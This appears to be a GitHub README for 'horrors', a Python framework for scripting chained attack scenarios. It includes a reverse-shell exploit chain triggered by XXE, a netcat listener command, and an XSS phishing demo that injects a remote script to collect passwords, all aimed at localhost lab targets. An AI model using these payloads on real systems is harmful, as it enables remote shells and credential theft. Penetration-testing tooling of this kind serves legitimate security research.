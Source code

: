 # horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This framework was created in order to simplify attack automation and exploit development. All you have to do is, for example:

```python
async def reverse_shell(scenario):
    await scenario.http_post(
        'http://{rhost}:{rport}/query/'.format(**scenario.context),
        'secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**scenario.context),
        scenario.context['post_headers'],
        scenario.context['proxy']
    )

context = {
    'rhost': '127.0.0.1',
    'rport': 8008,
    'lhost': '127.0.0.1',
    'lport_reverse': 4444,
    'proxy': {'http': 'http://127.0.0.1:8080'},
    'post_headers': {'Content-Type': 'application/x-www-form-urlencoded'},
}

story = scenarios.Scenario(**context)

ftpd = services.FTPReader(story)
ftpd.set_event('xxe', when=triggers.DataMatch(r'.+SecretKey=(.+);', bucket='secret'))

story.debug()
story.add_scene(reverse_shell, when='xxe')
story.play()
```

## Installation

    $ git clone https://github.com/tasooshi/horrors
    $ cd horrors; pip3 install .

## Example

Examples are included in the `horrors/examples` directory. Try it out by running:

### 1. vulnchain

    $ nc -lv4 4444
    $ horrors/examples/vulnchain/victim.py
    $ horrors/examples/vulnchain/attacker.py

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

### 2. xssphish

Or (this one requires interaction):

    $ horrors/examples/xssphish/victim.py
    $ horrors/examples/xssphish/attacker.py

Now visit `http://127.0.0.1:8008/?message=<script src="http://127.0.0.1:8888/fakequery.js"></script>`, type some passwords and watch `collected.json` for incoming credentials.

![xssphish](examples/xssphish/dom-based-xss-phish.jpg)


## Changelog

* **2021/12/12** Beta (v0.4)
    * A bit of asyncio cleaning up
    * Fixed examples to match the new API
    * Simplified services imports and generally everything
    * Changed default ports
    * Added requirements to setup.py
    * Replaced requests with aiohttp
* **2021/08/26** Beta (v0.3)
    * Yet another refactoring.
    * Added full HTTP support using Flask.
    * Added `utility/collector.py` to simplify data collection from exploited machines (and another related example).
* **2021/08/10** Beta (v0.2)
    * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
    * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
    * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)

